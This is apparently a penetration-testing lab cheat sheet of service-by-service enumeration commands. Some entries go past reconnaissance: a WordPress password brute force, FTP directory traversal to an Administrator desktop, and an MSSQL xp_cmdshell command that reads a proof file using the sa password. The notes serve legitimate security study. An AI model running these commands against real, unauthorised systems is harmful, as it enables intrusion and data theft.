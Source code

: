## Scan

### NMAP
```
nmap -A -Pn -n --top-ports 10000 -vvv -oN 192.168.27.68
nmap -sV -T5 -F -A 10.11.1.5 --open --script vuln
nmap -A -Pn -sC 10.11.1.8
nmap 10.11.1.125 --script ftp*
nmap -oN nmap2.txt -v -sU -sS -p- -A -T4 $ip
```
### NIKTO
```
nikto -h 10.10.10.10:8000
```

### DIRBUSTER
```
dirb http://10.11.1.31
```



### FTP - 21
```
anonymous:anonymous
cd "Documents and Settings"
get servers.py

ls ../../../../../../../../../../../Docume~1/Administrateur/Bureau/
get
(remote-file) ../../../../../../../../../../../Docume~1/Administrateur/Bureau/proof.txt
(local-file) /root/Desktop/10.11.1.125.txt
```

### SMTP - 25

```
nc -nv $ip 25
```

### DNS - 53

```
dig a domain-name-here.com @nameserver
dig axfr domain-name-here.com @nameserver
dnsenum zonetransfer.me
```

### WORDPRESS - 80, 443 etc.

```
wpscan -u "http://10.11.1.234" --wordlist /usr/share/wordlists/rockyou.txt --username admin
```

### POP3 - 110

POP3 Enumeration
```
telnet $ip 110
USER billydean
PASS password
list
retr 1
```

### NFC - 111

Show Mountable NFS Shares
```
nmap -sV --script=nfs-showmount $ip
```

### RPC - 135, 389

```
rpcclient --user="" --command=enumprivs -N $ip
```

### SMB - 139, 445

SMB Enumeration Tools
```
enum4linux 10.11.1.8
smbclient //10.11.1.128/wwwroot
smbclient -L 10.11.1.128
rpcclient -U "" $ip
```

SMB OS & Port Scan & All Script
```
nmap $ip --script smb-os-discovery.nse
nmap -v -p 139,445 -oG smb.txt $ip-254
nmap -sV -Pn -vv -p 445 --script='(smb*) and not (brute or broadcast or dos or external or fuzzer)' --script-args=unsafe=1 $ip
nmap -sV -Pn -vv -p 445 --script-args smbuser=<username>,smbpass=<password> --script='(smb*) and not (brute or broadcast or dos or external or fuzzer)' --script-args=unsafe=1 $ip
```

### SNMP - 161,162

```
snmpcheck -t $ip -c public
snmpwalk -c public -v1 $ip 1|
grep hrSWRunName|cut -d\* \* -f
snmpenum -t $ip
onesixtyone -c names -i hosts
nmap -sV -p 161 --script=snmp-info $ip/24
```

SNMP Default Credentials
```
/usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt
```

### MSSQL - 1433

İnformation gathering

```
nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip

nmap 10.11.1.31 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,mssql.instance-name=MSSQLSERVER,ms-sql-xp-cmdshell.cmd='type C:\"Documents and Settings"\Administrator\Desktop\proof.txt'
```
